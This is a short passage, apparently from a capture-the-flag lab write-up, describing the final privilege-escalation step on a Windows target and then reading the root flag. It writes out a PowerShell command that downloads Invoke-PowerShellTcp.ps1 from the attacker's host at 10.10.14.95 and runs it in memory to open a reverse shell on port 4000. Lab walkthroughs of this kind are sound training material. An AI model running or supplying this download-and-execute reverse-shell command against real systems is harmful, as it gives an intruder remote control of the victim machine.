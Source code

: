 Again we set up a server and netcat listener, and execute the command `powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.95/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.95 -Port 4000`.

And now we can get the root flag in `C:\Users\Administrator\Desktop\root.txt`.
